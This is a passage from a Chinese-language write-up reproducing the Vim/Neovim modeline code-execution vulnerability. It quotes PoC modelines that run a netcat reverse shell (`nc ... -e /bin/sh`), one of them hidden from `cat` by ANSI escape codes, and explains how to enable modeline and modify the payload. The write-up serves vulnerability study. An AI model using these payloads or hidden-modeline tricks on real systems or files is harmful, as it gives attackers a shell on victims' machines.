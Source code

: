 除去转义字符和重写文件部分，可以简化成如下所示：

```
# shell_simple.txt
:call system('nohup nc 127.0.0.1 9999 -e /bin/sh &amp;')  ||" vi:fen:fdm=expr:fde=assert_fails("source! %"):fdl=0:fdt="
```

由前面的知识我们可以知道，此poc会在vim的normal模式下运行：

`:call system('nohup nc 127.0.0.1 9999 -e /bin/sh &amp;')`

拆开分析：
- call: 执行一个函数
- system(): 执行shell命令
<li>
`nohup nc 127.0.0.1 9999 -e /bin/sh &amp;`： 反弹shell</li>
### <a class="reference-link" name="%E5%8F%AF%E8%83%BD%E9%81%87%E5%88%B0%E7%9A%84%E9%97%AE%E9%A2%98"></a>可能遇到的问题

<a class="reference-link" name="modeline%E5%8A%9F%E8%83%BD%E5%BC%80%E5%85%B3"></a>**modeline功能开关**

普通用户的modeline功能默认开启，而root用户是默认关闭的。<br>
可以在命令模式下使用`:echo &amp;modeline`查看开启情况，返回1就是开启、0就是关闭。modeline功能<br>
需要打开，PoC才能成功运行，可以在`~/.vimrc`中加上一行`set modeline`确保开启此功能。

<a class="reference-link" name="%E7%AC%AC%E4%BA%8C%E4%B8%AA%E5%8F%8D%E5%BC%B9shell%E7%9A%84PoC%EF%BC%8C%E5%A4%8D%E5%88%B6%E7%B2%98%E8%B4%B4%E5%88%B0%E6%9C%AC%E5%9C%B0%E8%BF%90%E8%A1%8C%E4%BC%9A%E5%A4%B1%E8%B4%A5"></a>**第二个反弹shell的PoC，复制粘贴到本地运行会失败**

刚开始看到这两段exp的时候，我只成功复现了第一个，第二个失败了。研究后发现问题出现在转义字符上，这时候我看到PoC作者的[repo](https://github.com/numirias/security)里面带了第二段exp的源文件，于是我用wget下载了[shell.txt](https://raw.githubusercontent.com/numirias/security/master/data/2019-06-04_ace-vim-neovim/shell.txt)，重新尝试，这次漏洞复现成功了！

用二进制查看工具`Okteta`打开`shell.txt`，可以看到转义字符`x1b`是非显示字符。转义字符常常用来控制终端显示、光标移动等，第二个PoC中就利用了转义字符隐藏代码的功能，有关转义字符的知识可以参考这个链接[ansi-escape-codes](http://notes.burke.libbey.me/ansi-escape-codes/)。

[![](https://p0.ssl.qhimg.com/t0178257fa440f2e6ae.png)](https://p0.ssl.qhimg.com/t0178257fa440f2e6ae.png)

```
$ cat shell.txt   # 部分输出在终端中被隐藏
Nothing here
$ cat -A shell.txt 
^[[?7l^[SNothing here.^[:silent! w | call system('nohup nc 127.0.0.1 9999 -e /bin/sh &amp;') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails('set fde=x | source! %') fdl=0: ^V^[[1G^V^[[KNothing here."^V^[[D $
```

作者文章给出代码中的`x1b`是为了更清晰地表达，并不能直接复制使用。

所以如果我们想要修改第二段利用代码，比较简单的方式是是下载[源文件](https://raw.githubusercontent.com/numirias/security/master/data/2019-06-04_ace-vim-neovim/shell.txt)，修改执行命令的部分，当然也可以使用二进制编辑器直接编写或修改。



## 修复
